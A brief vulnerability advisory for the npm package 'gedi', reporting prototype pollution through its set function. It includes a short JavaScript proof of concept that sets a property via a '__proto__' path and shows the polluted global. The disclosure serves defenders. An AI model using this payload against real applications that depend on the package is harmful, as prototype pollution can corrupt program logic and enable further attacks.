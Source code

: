 # Overview
`gedi` is an An evented data API, this package are vulnerable to Prototype Pollution via. the `set` function.

# Proof of Concept
```
const gedi = require('gedi');
try {
    gedi().set('[__proto__/polluted]', true);
} catch(e) {}
console.log(polluted);
```